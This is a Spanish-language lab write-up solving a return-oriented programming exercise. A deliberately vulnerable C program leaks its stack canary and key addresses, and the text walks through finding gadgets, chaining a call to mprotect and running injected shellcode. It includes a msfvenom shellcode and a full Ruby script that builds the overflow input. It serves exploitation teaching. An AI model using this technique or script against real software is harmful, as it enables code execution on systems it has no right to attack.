









# ROP-01

**Objetivo**: Explotar el siguiente programa para lograr ejecutar código arbitrario.

```c
// rop-01.c

#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <stdint.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

void aid() {
  asm("pop %rdi; ret");
  asm("pop %rsi; ret");
  asm("pop %rdx; ret");
}

int main(int argc, char **argv) {
    char buffer[256];

    // Obtenemos el valor del base pointer.
    register uint64_t rbp asm("rbp");

    // Obtenemos el valor del canario.
    uint64_t canario = *(uint64_t *)(rbp - 8);

    printf("\n");
    printf("Explotando una vulnerabilidad de lectura obtenemos "
           "los siguientes valores:\n\n");

    printf("Canario:\n");
    printf("0x%lx\n\n", canario);

    printf("&buffer:\n");
    printf("%p\n\n", &buffer);

    printf("&mprotect:\n");
    printf("%p\n\n", mprotect);

    printf("&aid:\n");
    printf("%p\n\n", aid);

    printf("Inyectar shellcode en el stack y ejecutarlo.\n");
    getchar();
    
    int fd = open("/tmp/rop-01/input.bin", O_RDONLY);
    
    read(fd, &buffer, 512);
    return 0;
}
```


## Solución

Como ya hemos visto antes, si lo que queremos es lograr ejecutar código arbitrario mediante técnicas de corrupción de memoria, será usual que primero debamos desarrollar primitivas de lectura y de escritura que nos permitan interactuar con el espacio de memoria del proceso objetivo. Oportunamente, en este ejercicio no necesitamos desarrollar un mecanismo de lectura: el programa nos provee automáticamente todos los datos que necesitamos para desarrollar el exploit. El mecanismo de escritura, por otro lado, a esta altura debería resultar obvio. Lo único que haremos es desbordar el buffer para así modificar datos que estén en direcciones superiores dentro del stack.

Con las direcciones que nos provee el programa, ASLR ya no es un problema. También contamos con el valor del canario, por lo que Stack Protector tampoco es un problema. Para lograr una explotación exitosa, sin embargo, todavía debemos vencer a W^X. Supongamos que desbordamos el buffer y modificamos la dirección de retorno para que apunte al buffer donde inyectamos nuestro shellcode. Si no tomamos ninguna medida adicional, cuando la función main retorne el procesador intentará ejecutar nuestro shellcode en el stack. En ese momento el hardware detectará un intento de ejecución de código en una página sin los permisos adecuados y notificará al sistema operativo, el cuál finalizará el proceso con un error de segmentación. 

Si queremos que el shellcode en el buffer sea ejecutable debemos de alguna forma darle permisos de ejecución a la página de memoria que lo contiene. Oportunamente, contamos con la dirección de la  función mprotect en libc, la cuál permite cambiar los permisos a nivel página. Hay un problema con esta aproximación, sin embargo, y es que para ejecutar nuestro código inyectado primero debemos inyectar y ejecutar código que lo haga ejecutable, lo cuál aparentaría ser una paradoja.

Para resolver este problema existe una técnica llamada **Return Oriented Programming** (ROP). La idea de ROP es encadenar pequeños fragmentos de código ejecutable, ya existente en el espacio de memoria del proceso, para generar un payload completo. Desarrollar payloads complejos con ROP, sin embargo, puede ser algo impráctico. Es por ello que la técnica suele utilizarse para hacer ejecutable algún bloque de shellcode inyectado. El shellcode puede entonces implementar lógica que sería demasiado complicada de lograr con ROP.


#### Return Oriented Programming

La idea ahora es ver un poco el funcionamiento de ROP [1]. ROP es una técnica moderadamente compleja, por lo que una explicación textual podría resultar insuficiente. La mejor forma de entender ROP es verlo en funcionamiento. En la segunda parte de la presentación del workshop ["Exploits con Rueditas"](https://github.com/fundacion-sadosky/workshop-eko), presentado en la ekoparty 2018, hay una secuencia de diapositivas que muestran el progreso de una ejecución con ROP en x86. Habiendo estudiado la teoría que presentaremos a continuación, se recomienda intentar seguir la animación diapositiva por diapositiva para obtener una noción más visual de la técnica.




Para entender el funcionamiento de ROP primero debemos introducir el concepto de **gadget**. Un gadget de ROP es una secuencia de instrucciones de assembly que finalizan con una instrucción de retorno "ret". En las páginas ejecutables del espacio de memoria de un proceso puede haber muchos gadgets, no necesariamente producto de las llamadas intencionales a ret insertadas por el compilador. Esencialmente, cualquier secuencia de bytes finalizada por el byte `0xc3` (ret en x64) puede ser usada como gadget para armar una cadena ROP, o "ROP chain". Una cadena es una secuencia de gadgets que serán ejecutados uno tras otro, y que diseñaremos para que el código resultante sea equivalente al payload que queremos ejecutar.

Ejemplos de gadgets podrían ser los siguientes:

```assembly
inc rax
ret
```

```assembly
mov rcx, rax
ret
```

```assembly
and rbx, rax
ret
```

```assembly
pop rdx
pop rbx
ret
```

El primero aumentará el registro rax en 1, mientras que el segundo copiará el valor en el registro rax y lo colocará en rcx. El tercero hará una operación "and" entre rax y rbx, y el cuarto tomará los dos primeros valores en el tope del stack y los guardará en los registros rdx y rbx, respectivamente.

Para encontrar gadgets en binarios podemos usar herramientas como [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), [Ropper](https://github.com/sashs/Ropper) o [BARF](https://github.com/programa-stic/barf-project). Antes de ver un ejemplo concreto de utilización de las herramientas, supongamos por un momento que contamos con los siguientes gadgets:

```assembly
pop rdi
ret
```

```assembly
pop rsi
ret
```

```assembly
pop rdx
ret
```

¿Qué ocurriría si, a partir de la dirección de retorno de main, construimos una secuencia como la que se muestra en el siguiente esquema?




>  **Nota**: Los valores coloreados representan direcciones. E.g. `&gadget1` es la dirección del primer gadget, mientras que `&buffer & ~0xfff` es la direccón del buffer habiendole aplicado una conjunción lógica bit a bit con el valor `0xfff` (extendido a 64 bits) y negado, efectivamente alineando la dirección a una página de 4096 bytes.

Es decir, en la dirección de retorno de main colocamos la dirección del primer gadget. Lo que ocurrirá es que, cuando la función main retorne, la ejecución saltará a la instrucción "pop rdi" del primer gadget. Dicha instrucción tomará el valor en el tope del stack, que en ese momento será `&buffer & ~0xfff` (la dirección de buffer alineada a una página de 4096 bytes, tamaño típico en Linux) y la guardará en el registro rdi. Luego la ejecución continuará con otro ret, que enviará la ejecución a la dirección en el tope del stack, esta vez la dirección del segundo gadget. Nuevamente, el gadget se ejecutará guardando en el registro rsi el valor 0x100 y la ejecución continuará con el tercer gadget. El tercer gadget guardará el valor 0x7 en el registro rdx y enviará la ejecución a la dirección que en ese momento se encuentre en el tope del stack. En este caso será la dirección de la función mprotect.

Esencialmente, según la convención de pasaje de argumentos de x86-64, lo que habríamos logrado es efectuar una llamada efectivamente como la siguiente:

```C
mprotect((void*)((uint64_t)&buffer & ~(page_size-1)), 0x100, 0x7);
```

Recordaremos que esta es la llamada que usabamos en los ejercicios de shellcode para hacer a nuestro buffer ejecutable. Si tomamos el binario del ejercicio shellcode-01 y analizamos el código assembly veremos efectivamente lo siguiente:

```
79b: 48 8d 85 f0 fe ff ff   lea    rax,[rbp-0x110]
7a2: 48 8b 95 e8 fe ff ff   mov    rdx,QWORD PTR [rbp-0x118]
7a9: 48 f7 da               neg    rdx
7ac: 48 21 d0               and    rax,rdx
7af: ba 07 00 00 00         mov    edx,0x7
7b4: be 00 01 00 00         mov    esi,0x100
7b9: 48 89 c7               mov    rdi,rax
7bc: e8 4f fe ff ff         call   610 <mprotect@plt>
```

Las primeras cuatro instrucciones alinean la dirección del buffer al tamaño de la página y la guardan en el registro rax. La siguiente instrucción coloca en el registro rdx el valor 0x7. La siguiente instrucción guarda en el registro rsi el valor 0x100. La siguiente instrucción coloca en rdi el valor que se había guardado en rax. Finalmente, se da la llamada a mprotect.

Notaremos también que nuestra cadena ROP finaliza con la dirección del buffer. El valor en el tope del stack cuando una función comienza a ejecutarse no es otra cosa que la dirección de retorno de la misma. Por lo tanto, si ponemos la dirección de nuestro buffer luego de la dirección de mprotect, cuando esta última finalice la ejecución continuará saltando a dicho buffer y ejecutando el shellcode que allí hayamos inyectado, el cuál para ese momento será ejecutable. 


#### Explotando el programa objetivo

Si queremos aplicar ROPa nuestro problema primero debemos encontrar gadgets adecuados en el binario con el que estamos trabajando. Si bien la ubicación de los gadgets que necesitamos es en este caso un tanto evidente, no está de más ver cómo podemos utilizar ROPgadget para encontrar gadgets en binarios más extensos. Para este ejercicio lo que haremos es crear un entorno virtual de Python con virtualenv, y allí será donde instalaremos ROPgadget:

```bash
# Creamos y activamos el entorno virtual de Python
virtualenv -p python3 ropgadget && source ropgadget/bin/activate

# Instalamos ROPgadget
pip install ropgadget
```




Para encontrar gadgets en el binario de nuestro programa podemos ejecutar

```bash
# Compilamos el programa.
gcc rop-01.c -o rop-01

# Buscamos gadgets en el binario.
ROPgadget --binary ./rop-01
```



En la captura estamos de hecho filtrando con grep para encontrar los gadgets que nos interesan. Adicionalmente, estamos pasando la opción `--nojop` para indicarle a ROPgadget que no nos muestre gadgets de Jump Oriented Programming [2], una técnica más sofisticada que no requiere control del stack, la cuál estaremos estudiando eventualmente.

Las direcciones que ROPgadget reporta son relativas al inicio de la sección de texto del programa. Al momento de utilizar los gadgets en un exploit será necesario determinar la dirección a partir de la cuál fue mapeada la sección de texto en el espacio de memoria del proceso y sumar el offset para obtener la dirección absoluta del gadget. Más práctico es, sin embargo, determinar la distancia entre el gadget y algún landmark cuya dirección podamos determinar fácilmente. En el caso del ejercicio contamos oportunamente con la dirección de la función aid. Si analizamos el programa con objdump observaremos que los gadgets que nos interesan se encuentran en aid+4, aid+6 y aid+8.

```bash
objdump -M intel -d ./rop-01
```




Ya contamos entonces con los gadgets que nos interesan. Ahora necesitamos un mecanismo eficiente para generar nuestro exploit. Lo que estaremos haciendo es ejecutar nuestro programa, obtener las direcciones que nos interesan, y en base a ellas generar un exploit adecuado.

En principio necesitaremos algún shellcode. Solo por simpleza estaremos usando un payload de Metasploit que mostrará "Hello, world!" en la terminal y finalizará. Dicho payload lo estaremos exportando en formato Ruby, ya que estaremos también creando un script que generará la entrada maliciosa automáticamente en función de las direcciones que estaremos proveyendo.

```bash
msfvenom -p linux/x64/exec CMD="echo Hello, world!" -f ruby
```



```ruby
buf = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05"
```


El script para generar nuestra entrada podría ser entonces el siguiente:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")

p_len = payload.length

# Completar con el valor del canario
canary = 0x0

# Completar con la dirección del buffer
addr_buffer = 0x0

# Completar con la dirección de mprotect
addr_mprotect = 0x0

# Completar con la dirección de aid
addr_aid = 0x0

# Completar con la cantidad de bytes desde el inicio del buffer
# hasta la dirección de retorno. Debe ser mayor a la longitud del payload + 16.
bytes_until_ret = 0x0

# Llenamos con bytes hasta llegar al canario.
fill_0 = ("\x90"*(bytes_until_ret - p_len - 16)).force_encoding("ASCII-8BIT")

# Ingresamos el el canario, y luego 8 bytes adicionales.
fill = fill_0 + [canary].pack(">Q") + ("\x90"*8).force_encoding("ASCII-8BIT")

# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer
].pack(">Q*")

# Generamos el exploit.
puts payload.force_encoding("ASCII-8BIT") + fill + chain
```


Con gdb determinamos que la distancia en bytes desde el inicio del buffer hasta la dirección de retorno es de 0x118 (280) bytes. Por lo tanto reemplazamos

```ruby
bytes_until_ret = 0x118
```

Para completar el resto de los valores debemos ejecutar el programa. Ejecutamos entonces rop-01:

```bash
./rop-01
```



Tenemos entonces que

```ruby
# Completar con el valor del canario
canary = 0x13095817affa0f00

# Completar con la dirección del buffer
addr_buffer = 0x7ffd3987a240

# Completar con la dirección de mprotect
addr_mprotect = 0x7feb50142ae0

# Completar con la dirección de aid
addr_aid = 0x555aaceac85a
```

Actualizamos el script y lo ejecutamos para obtener nuestro input:



Observaremos que la dirección del primer gadget (en formato little endian) se encuentra efectivamente a partir del offset 0x118, que recordaremos corresponde a la dirección de retorno. A partir de 0x120 observamos que se encuentra la dirección de nuestro buffer, alineada efectivamente a una página de 4096 bytes. Podremos ver que luego siguen las direcciones de los otros dos gadgets, entremezcladas con los datos que queremos cargar en los correspondientes registros. Casi al final del dump vemos la dirección de mprotect seguida efectivamente por la dirección de nuestro buffer. Al final de la entrada hay también un salto de línea generado por puts, aunque eso no es demasiado relevante.

Con esta entrada ya en el archivo input.bin, lo único que resta es presionar enter en la terminal en la que se está ejecutando rop-01. Acto seguido, el programa cargará el contenido del archivo al buffer en el stack, y cuando la función retorne deberíamos observar efectivamente algo como lo siguiente:



Observaremos que nuestro exploit ha sido ejecutado satisfactoriamente. Con esto ya tenemos una técnica que nos permite vencer a W^X, y tenemos también la pieza final que nos permite desarrollar exploits que todavía podrían funcionar en sistemas modernos. En los ejercicios posteriores estaremos viendo más de ROP, y también veremos finalmente un ejercicio completo de explotación de software. Dicho ejercicio requerirá encontrar vulnerabilidades, desarrollar primitivas de lectura y de escritura, y poner todo junto para lograr la eventual ejecución de código arbitrario.


## Referencias y lecturas adicionales

[1] Shacham (2007). *The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)*.

[2] Bletsch, Jiang & Freeh (2011). *Jump-Oriented Programming: A New Class of Code-Reuse Attack*.
